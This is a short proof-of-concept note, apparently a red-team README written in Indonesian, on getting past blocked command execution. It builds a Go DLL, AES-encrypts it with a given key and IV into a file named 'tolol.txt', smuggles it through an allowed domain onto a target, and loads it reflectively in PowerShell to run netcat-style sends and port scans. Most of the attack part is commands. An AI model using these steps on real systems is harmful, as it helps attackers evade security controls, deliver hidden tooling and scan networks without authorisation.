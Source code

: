 ## Background Story

Di sini agak sedih juga sih, karena dikasih akses ke PowerShell. Seharusnya semua akses ke command execution itu diblokir, even LOLBAS (listed atau non-listed).

## PoC

```
iv: 5030511e51bbf22fb651936cbeeed884
key: 2814a9ddc9529f174206d5c030229e610cdac08da698003ab0a8f5fcad93a095
```

```console
$ CGO_ENABLED=1 GOOS=windows GOARCH=amd64 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -ldflags "-extldflags=-static" -o hello.dll ./hello.go
$ openssl enc -aes-256-cbc -K "2814a9ddc9529f174206d5c030229e610cdac08da698003ab0a8f5fcad93a095" -iv "5030511e51bbf22fb651936cbeeed884" -in phapp/hello.dll -out tolol.txt
```
transfer `tolol.txt` ke protokol yang diizinin, misal kalo cuma boleh akses HTTP via browser-only, cari domain yang diizinin, upload disitu. download ke mesin target. 

example powershell calls
```console
PS> . .\reflection.ps1
PS> [abc.abcabc]::NetcatSendTCP("127.0.0.1", 12345, "hello from pwsh", 200, 1) | Out-Null
PS> [abc.abcabc]::PortScan("127.0.0.1", 1, 65535, 200, 1, "C:\scans\127.0.0.1_scan.txt")
```

![Untitled](https://github.com/user-attachments/assets/c7786a8f-d352-4704-b780-31322277c6fa)


## References
1. <https://github.com/shantanu561993/SharpChisel/tree/master/Go/chisel-64>
